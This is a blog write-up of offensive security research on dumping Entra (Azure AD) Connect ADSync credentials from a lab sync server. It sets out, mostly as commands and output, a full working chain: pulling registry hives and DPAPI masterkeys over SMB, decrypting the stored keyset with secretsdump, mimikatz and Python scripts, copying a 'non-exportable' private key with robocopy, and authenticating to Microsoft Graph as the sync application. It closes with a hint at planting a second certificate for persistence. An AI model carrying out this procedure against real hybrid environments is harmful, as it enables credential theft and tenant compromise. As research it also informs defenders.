

# Dumping ADSync Credentials (Again)

Recently, I was looking for a way to grab the on-prem hybrid ADSync credentials from an Azure sync machine without command execution on the server and skipping the EDR installed on the machine when I found that [adconnectdump](https://github.com/dirkjanm/adconnectdump) no longer worked.

## Descent into madness

The credential location was still the same path:
```powershell
\\192.168.188.129\C$\Windows\ServiceProfiles\]> ls
d-------     0.00 B  2025-06-02 16:33  .\
d-------     0.00 B  2025-06-02 15:56  ..\
d-------     0.00 B  2025-06-03 14:11  ADSync\
d-------     0.00 B  2025-06-03 14:11  LocalService\
d-------     0.00 B  2025-06-03 14:11  NetworkService\
\\192.168.188.129\C$\Windows\ServiceProfiles\]> cd ADSync\AppData\Local\Microsoft\Credentials
\\192.168.188.129\C$\Windows\ServiceProfiles\ADSync\AppData\Local\Microsoft\Credentials\]> ls
d-----s-     0.00 B  2025-06-02 16:34  .\
d-------     0.00 B  2025-06-02 16:34  ..\
-a-h--s-    1.06 kB  2025-06-02 16:34  A879CB98E05B516120073F8225D76BD5
```


The masterkey was also still in the same location:

```powershell
\\192.168.188.129\C$\Windows\ServiceProfiles\ADSync\AppData\Roaming\Microsoft\Protect\S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451\]> ls
d-----s-     0.00 B  2025-06-02 16:33  .\
d-----s-     0.00 B  2025-06-02 16:33  ..\
-a-h--s-   468.00 B  2025-06-02 16:33  00b1dc71-269c-4b1e-abf3-555e5295beeb
-a-h--s-    24.00 B  2025-06-02 16:33  Preferred
```

So, I dumped the DPAPI keys after pulling the standard registry hives:


```powershell
PS > secretsdump.py -sam output/SAM -system output/SYSTEM -security output/SECURITY LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x636c03bb289b1b6fe2d053b531c85c72
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e23688d29a7820574bb3f1682d4ca2b8:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2e81af43a22c7302f796b68868e150a0:::
[*] Dumping cached domain logon information (domain/username:hash)
AZLAB.LOCAL/Administrator:$DCC2$10240#Administrator#87646b3854c3d6fac2d1f42d70b71e16: (2025-06-03 13:45:33)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:6e004d0057003c00330...
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:939cff25ca4fd69a2dfb41c930b21479
[*] DPAPI_SYSTEM
dpapi_machinekey:0x62becb76efb375641fa0586e4fc74c8761298939
dpapi_userkey:0x6e3073ccfbc96e764531abd57afec2b64188b453
```


I also pulled the ADSync database files, credentials and masterkeys for `S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451` and the `C:\Windows\system32\microsoft\protect\S-1-5-18\` directory.
Mimikatz was not cooperating so I just ran the functions in adconnectdump and scripted the masterkey decryption:

```powershell
$ python3 local_credential_processor.py  --userkey 6e3073ccfbc96e764531abd57afec2b64188b453 --credential-file A879CB98E05B516120073F8225D76BD5 --base-path "./"
2025-06-03 17:48:16 - INFO - Using custom base path: ./
2025-06-03 17:48:16 - INFO - Processing credential file: A879CB98E05B516120073F8225D76BD5
2025-06-03 17:48:16 - INFO - Found master key GUID: 00B1DC71-269C-4B1E-ABF3-555E5295BEEB
2025-06-03 17:48:16 - INFO - Found Protect directory: ./Protect
2025-06-03 17:48:16 - INFO - Found SID S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451 for NT SERVICE\ADSync Virtual Account
2025-06-03 17:48:17 - INFO - Decrypted ADSync user masterkey using SYSTEM UserKey + SID
2025-06-03 17:48:17 - INFO - Decrypted masterkey: 56a0c50ae1a8b3...
Found keyset: {'decrypted_masterkey': '56a0c50ae1a8b3a..', 'masterkey_guid': '00B1DC71-269C-4B1E-ABF3-555E5295BEEB', 'sid': 'S-1-5-80-3245704983-3664226991-764670653-2504430226-901976451'}
```


With that the credential blob could be decrypted:

```powershell
PS > dpapi::cred /masterkey:56a0c50ae1a8b3a6a... /in:A879CB98E05B516120073F8225D76BD5
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {00b1dc71-269c-4b1e-abf3-555e5295beeb}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : b0ab51fc77173323f386d692a7cb07a1915b8b24a87aac842b9fd5d04578f12b
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 47257d6a548a62c9f1f5a4dcf5af1296ac62fe40612abc8d77d5575110f183c4
  dwDataLen          : 00000330 - 816
  pbData             : fb1eb6b633814ce9bd71c1cb29d8ebbd38...
  dwSignLen          : 00000040 - 64
  pbSign             : 2844cc29aaae947b37325e50...

Decrypting Credential:
 * masterkey     : 56a0c50ae1a8b3a6a9db3b0bb...
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 00000328 - 808
  credUnk0       : 00000000 - 0

  Type           : 00000001 - 1 - generic
  Flags          : 00000000 - 0
  LastWritten    : 02/06/2025 15:34:30
  unkFlagsOrSize : 00000210 - 528
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : LegacyGeneric:target=Microsoft_AzureADConnect_KeySet_{C6492384-EF9D-4B30-BED9-F0737B43C269}_100000
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : ADSync
  CredentialBlob : 01 00 00 00 d0 8c 9d df ...

```

The credential blob contains the ADSync keyset but requires the system key (`a21ccc11-c5ba-449d-bb59-2bb97486cb71`) to decrypt, blobinfo from dpapilab-ng displayed it nicely:


```powershell
$ python3 analyze_credential_blob.py --hex "01 00 00 00 d0 8c 9d df ..."
DPAPI BLOB
        version      = 1
        provider     = df9d8cd0-1501-11d1-8c7a-00c04fc297eb
        mkey         = a21ccc11-c5ba-449d-bb59-2bb97486cb71
        flags        = 0x4
        descr        = b'MMS_ENCRYPTION_KEYSET_{C6492384-EF9D-4B30-BED9-F0737B43C269}_100000\x00'
        cipherAlgo   = AES-256 [0x6610]
        hashAlgo     = sha512 [0x800e]
        salt         = 19f018bca315ed5e7b1e7d1ec36ebfa19070d571316ff18a94f40c5b89d1a108
        hmac         = 8f9a8e5dc87830814c24416e93818c1698049ac45eb102407d3440dc4b481d8d
        cipher       = 5027299107129ff4ecc07c0462307b213504cb774da98047e4...
        sign         = 470e617fcc2c7ef9b47827578d878ac4bd7b3...
```


This `a21ccc11-c5ba-449d-bb59-2bb97486cb71` corresponds with one of the keys in the `C:\Windows\system32\microsoft\protect\S-1-5-18\` directory.
Using the system key, the masterkey could be decrypted:

```powershell
$ python3 ~/dpapilab-ng/mkdecs.py --system output/SYSTEM --security output/SECURITY output/syskeys/a21ccc11-c5ba-449d-bb59-2bb97486cb71

[!] Working on MK GUID a21ccc11-c5ba-449d-bb59-2bb97486cb71
-------------
[+] MASTER KEY UNLOCKED!
[+] KEY: b9e409f222fa04e6e25e73591...
[+] SHA1: bf1c5cb976e38cb415619bf3f0467061ffe10b94

```

Finally, the credential blob could be decrypted with the masterkey and the decryption algorithm used in adconnectdump which I've combined into a single file to skip the initial steps of the script:

```powershell
$ python3 auto_decrypt_credentials.py --credential-blob "01 00 00 00 ... d0 8c 9d df ..." --masterkey b9e409f222fa04e6e25e735...

...

--- RECORD 1 ---

--- Found Credentials ---
  AdminUpn  : syncuser@******.onmicrosoft.com
  Password  : A98DAD3CC0055C718CCC7850319EB5D164C4915D6C1B1F79D88375D0FDAB6019
  TenantId  : 07******-****-****-****-**********06
  Username  : {8876484e-7f2d-4d34-a890-6a2ed53c9ee4}@******.onmicrosoft.com
-------------------------

--- RECORD 2 ---

--- Found Credentials ---
  Domain    : azlab.local
  Password  : n4raubUW}#ZXHO6{.7g(_jDXo|:$?.%AIZ$hP7*}ao8k#@]NxEE&vU7=s#l]1QhzEGs*R1h)xb*g1)#{l8-!(0?;a#oXyp+G]GB&l:*1}G%Ou=(5v[/7a@>BHjg@#L>
  Username  : MSOL_09e60dfc16b6
-------------------------
```

Record 2 looked correct, but the password found in record 1 didn't match the actual password for the account. Also, the fact that it was exactly 64 characters long made me a bit suspicious. So I pulled the DLLs from the `C:\Program Files\Microsoft Azure AD Sync\Bin` and opened them in DNSpy.

## Certificate Tomfoolery

`Microsoft.Azure.ActiveDirectory.ADSyncManagement.Server.DLL` has a method to decrypt the config file and process the values:
```c#
internal static CertificateCredential GetADSyncEntraCertificateCredential(AzureActiveDirectoryCredential aadCredential)
		{
      ...[SNIP]...
			string text = aadCredential.Password.ToSystemString();
			certificateCredential.CertificateSHA256Hash = text;
			certificateCredential.ApplicationManagedBy = applicationManagedBy;
			certificateCredential.CertificateManagedBy = certificateManagedBy;
			certificateCredential.Id = guid2;
			X509Certificate2 x509Certificate;
			if (certificateManagedBy == CertificateManagedBy.Customer)
			{
				CertificateUtility.TryFindCertificateBySHA256Hash(text, StoreLocation.LocalMachine, out x509Certificate);
			}
			else
			{
				CertificateUtility.TryFindCertificateBySHA256Hash(text, StoreLocation.CurrentUser, out x509Certificate);
			}
			if (x509Certificate != null)
			{
				certificateCredential.CertificateThumbprint = x509Certificate.Thumbprint;
				certificateCredential.ExpiryTime = x509Certificate.NotAfter.ToUniversalTime();
				certificateCredential.StartTime = x509Certificate.NotBefore.ToUniversalTime();
				certificateCredential.Issuer = x509Certificate.Issuer;
				certificateCredential.Subject = x509Certificate.Subject;
				certificateCredential.SerialNumber = x509Certificate.SerialNumber;
			}
			return certificateCredential;
		}
```

So it takes the value of the Password attribute as the SHA256 hash of the certificate and then authenticates to Azure AD using the certificate.

The ADSync user had only one certificate in my lab:
```powershell
\\192.168.188.129\C$\Windows\ServiceProfiles\ADSync\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\]> ls
d-----s-     0.00 B  2025-06-02 16:45  .\
d-----s-     0.00 B  2025-06-02 16:45  ..\
-a----s-    1.02 kB  2025-06-02 16:45  DC6BA012AA2EFD5651C929385AC5B80FF03FB6CD
```

But grabbing that from the server and importing into PowerShell shows that the certificate is indeed for Entra Connect Sync:
```powershell
PS > $cert | fl

Handle  : 1911192281216
Issuer  : CN=Entra Connect Sync Provisioning
Subject : CN=Entra Connect Sync Provisioning
```

First a new certificate and private key pair are made and then saved through the CNG key storage provider. When iniitalising the Azure sync service, a user will provide Global Admin or Hybrid Identity Admin credentials to authenticate to Azure AD. A new application registration is then created specifying the certificate to allow synchronisation using the certificate and private key, the application ID would match the "Username" field stored in the ADSync configuration file. 

This can be seen in the Azure portal:


The application also shows the same certificate thumbprint:




[When Microsoft updated their documentation](https://github.com/MicrosoftDocs/entra-docs/commit/bd92855d2eef5267321f0c7d8055e4f52eb9eb13), they stated that:
> The certificate is stored in the Local Machine store. The private key is marked as non-exportable, which means it will never leave the machine boundary. You can improve your security by installing this on a machine with Trusted Platform Module (TPM). In such a case, the private key will be securely stored inside TPM. For more information on TPM, see [Trusted Platform Module Technology Overview](/windows/security/hardware-security/tpm/trusted-platform-module-overview).

Given that my testing lab did not have a TPM, the key could be extracted despite it being "non-exportable". The administrative SMB client I'd been using access denied, but robocopy clutched:
```powershell
robocopy "X:\Windows\ServiceProfiles\ADSync\AppData\Roaming\Microsoft\Crypto\Keys" .\ /b e01176ef910fed3fac217881bd195186_16ebd844-7036-4683-af05-d666e63187ef
```

Which could then be decrypted with the masterkey from before:
```powershell
PS > dpapi::cng /in:e01176ef910fed3fac217881bd195186_16ebd844-7036-4683-af05-d666e63187ef /masterkey:56a0c50ae1a8b3a6a9db3b...
...
 * masterkey     : 56a0c50ae1a8b3a6a9db3b0bbed5292ecff....
        |Provider name : Microsoft Software Key Storage Provider
        |Implementation: NCRYPT_IMPL_SOFTWARE_FLAG ;
        Algorithm      : RSA
        Key size       : 2048 (0x00000800)
        Export policy  : 00000003 ( NCRYPT_ALLOW_EXPORT_FLAG ; NCRYPT_ALLOW_PLAINTEXT_EXPORT_FLAG ; )
        Exportable key : YES
        LSA isolation  : NO
        Private export : OK - 'dpapi_cng_0_78239eb2-75cd-4285-bbbd-b0a917a0840b.rsa.pvk'

```

Which produced a private key file that could be combined with the certificate to authenticate to Azure AD:
```powershell
$cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate
$cert.Import("C:\Users\user\Downloads\sharedFolder\syncing\DC6BA012AA2EFD5651C929385AC5B80FF03FB6CD")
openssl rsa -inform pvk -in .\dpapi_cng_0_78239eb2-75cd-4285-bbbd-b0a917a0840b.rsa.pvk -outform pem -out DC6BA012AA2EFD5651C929385AC5B80FF03FB6CD.pem
[System.IO.File]::WriteAllBytes("C:\Users\user\Downloads\sharedFolder\syncing\DC6BA012AA2EFD5651C929385AC5B80FF03FB6CD.cer", $cert.Export([System.Security.Cryptography.X509Certificates.X509ContentType]::Cert))
openssl pkcs12 -export -in ./DC6BA012AA2EFD5651C929385AC5B80FF03FB6CD.cer -inkey ./DC6BA012AA2EFD5651C929385AC5B80FF03FB6CD.pem -out DC6BA012AA2EFD5651C929385AC5B80FF03FB6CD.pfx -passout 'pass:Password123!'
$password=ConvertTo-SecureString "Password123!" -AsPlainText -force
Import-PfxCertificate -filepath .\DC6BA012AA2EFD5651C929385AC5B80FF03FB6CD.pfx -CertStoreLocation 'Cert:\CurrentUser\My' -password $password

   PSParentPath: Microsoft.PowerShell.Security\Certificate::CurrentUser\My

Thumbprint                                Subject
----------                                -------
DC6BA012AA2EFD5651C929385AC5B80FF03FB6CD  CN=Entra Connect Sync Provisioning

```

## The finale

The certificate could be used natively to authenticate to MS Graph. Or specified manually in the CLI where clientID is the GUID in the "Username" field of the ADSync configuration file:

```powershell
PS > connect-mggraph -tenantid 07******-****-****-****-**********06 -certificate $cert -ClientID 8876484e-7f2d-4d34-a890-6a2ed53c9ee4
Welcome to Microsoft Graph!

Connected via apponly access using 8876484e-7f2d-4d34-a890-6a2ed53c9ee4
Readme: https://aka.ms/graph/sdk/powershell
SDK Docs: https://aka.ms/graph/sdk/powershell/docs
API Docs: https://aka.ms/graph/docs

NOTE: You can use the -NoWelcome parameter to suppress this message.

PS > Get-MgContext

ClientId               : 8876484e-7f2d-4d34-a890-6a2ed53c9ee4
TenantId               : 07******-****-****-****-**********06
Scopes                 :
AuthType               : AppOnly
TokenCredentialType    : ClientCertificate
CertificateThumbprint  :
CertificateSubjectName :
SendCertificateChain   : False
Account                :
AppName                : ConnectSyncProvisioning_AZCONNECT_09e60dfc16b6
ContextScope           : Process
Certificate            : [Subject]
                           CN=Entra Connect Sync Provisioning

...
```

## Further Reading
As Microsoft stated in their documentation, the extraction of the private key demonstrated here is only possible if the machine is not storing it in the TPM. As all applications can roll their own keys so, an alternative method would be to add a secondary certificate to the application registration. All you'd really have to do is create a new certificate/private key pair, generate a proof of possession and then add it to the application registration. Existing functionality for that can be seen in 
`Microsoft.Azure.ActiveDirectory.AdsyncManagement.Server.ServicePrincipalHelper.UpdateADSyncApplicationKey`. With:
```cs
if (!string.IsNullOrEmpty(graphToken))
{
  Guid guid2 = ServicePrincipalHelper.UpdateApplicationKeyCredentials(graphApplication, guid, applicationByAppId.displayName, x509Certificate);
  ServicePrincipalHelper.ValidateADSyncApplicationRegistration(aadCredential.UserName, text);
  ServicePrincipalHelper.UpdateAADConnectorParameter(text, guid2, certificateManagedBy);
  Tracer.TraceInformation("Successfully updated application with appId: '{0}' with certificateId '{1}', certificateThumbprint '{2}', and certificateSHA256Hash '{3}'", new object[] { guid, guid2, x509Certificate.Thumbprint, text });
}
else
{
  string text5 = azureAuthenticationProvider.GenerateProofOfPossessionToken(applicationByAppId.id);
  Guid guid2 = ServicePrincipalHelper.AddApplicationKey(graphApplication, guid, text5, x509Certificate);
```

This is essentially abusing the same functionality that the service uses to update the application key normally but I'll leave that as an exercise for the reader.